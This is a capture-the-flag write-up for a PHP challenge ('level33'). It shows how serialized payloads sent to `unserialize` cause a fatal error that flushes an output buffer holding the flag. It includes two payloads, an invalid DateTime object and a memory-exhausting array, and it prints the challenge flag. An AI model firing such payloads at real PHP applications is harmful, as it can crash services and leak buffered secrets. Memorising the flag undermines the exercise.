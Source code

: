 ```yaml
---
layout: default
title: level33
---
```


In this challenge, there is `unserialize` vulnerability, like in [level30](./level30.md).

However, this time this is the source code:
```php
class B {
  function __destruct() {
    echo "<!-- Almost there? -->";
  }
}

if (isset($_POST['payload'])) {
    echo "Going dark…";
    ob_start();
    echo "Here is your flag: " . $flag . "\n";
    $a = unserialize($_POST['payload']);
    ob_end_clean();
}
```

It prints the flag but calls `ob_start` before, which sends all the output to a buffer.

I googled for this, and found this [everything about output buffering in php](https://phpfashion.com/en/everything-about-output-buffering-in-php#toc-security-hole), here I saw this *security hole*:
> When the script ends, all unclosed buffers are outputted. This can be considered an unpleasant security hole if, for example, you prepare sensitive data in the buffer not intended for output and an error occurs.

Okay, I asked chatGPT for payloads that might trigger error, and got this 2 payloads

### Payload 1: DateTime with Invalid Date

```php
O:8:"DateTime":3:{s:4:"date";s:26:"9999-99-99 99:99:99.000000";s:13:"timezone_type";i:3;s:8:"timezone";s:3:"UTC";}
```

**Explanation:**  
This payload unserializes a `DateTime` object with an invalid date string (`9999-99-99 99:99:99`). PHP throws a fatal error during object reconstruction due to the malformed date, halting execution before `ob_end_clean()` runs and leaking buffered output like the flag.

---

### Payload 2: Large Array Causing Memory Exhaustion

```php
a:99999999:{}
```

**Explanation:**  
This payload creates an extremely large array (about 100 million elements). PHP runs out of memory during `unserialize()`, triggering a fatal error. This stops further code execution, preventing the output buffer from being cleaned and allowing sensitive data to be leaked.

And when sending one of the payloads, we get the flag!

![FINAL](./images/level33_FINAL.png)

**Flag:** ***`WEBSEC{So_it_was_all_b(l)uff_in_the_end?}`*** 
